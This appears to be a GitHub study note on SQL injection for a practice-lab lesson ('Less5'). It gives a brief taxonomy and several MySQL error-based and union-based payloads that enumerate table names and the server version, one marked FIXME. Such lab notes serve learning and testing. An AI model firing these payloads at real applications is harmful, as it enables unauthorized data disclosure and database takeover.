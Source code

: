 # Sqli
    SQL injection is a code injection technique


>SQL injection attacks allow attackers to spoof identity, tamper with existing data, cause repudiation issues such as voiding transactions or changing balances, allow the complete disclosure of all data on the system, destroy the data or make it otherwise unavailable, and become administrators of the database server.

- *Classic* SQLi
    - Error-based SQLi
    - Union-based SQLi
- **Blind** SQLi
    - Boolean-based (content-based) Blind SQLi
    - Time-based Blind SQLi

----

### Less5
	Error-based SQLi

``` sql
    '1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema = database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a limit 0,1)b) --+
```

``` sql
//FIXME
    '1' and (select 1 from (select count(*),group_concat(concat((select group_concat(table_name) from information_schema.tables where table_schema = database()),floor(rand()*2))a) from information_schema.tables group by a)b) --+
```

``` sql
	'1' and (select 1 from (select count(*),(floor(rand()*2))a from information_schema.tables group by a limit 0,1)b) --+
```

``` sql
    '1' and (select 1 from (select count(*),concat(version(),floor(rand()*2))a from information_schema.tables group by a limit 0,1)b) --+
```

``` sql
    '1' and extractvalue(1,concat("/",(select group_concat(table_name) from information_schema.tables where table_schema = database() limit 0,1))) --+
```

``` sql
union select 1,table_name,2 from information_schema.tables where table_schema = database() limit 0,1 --+
```
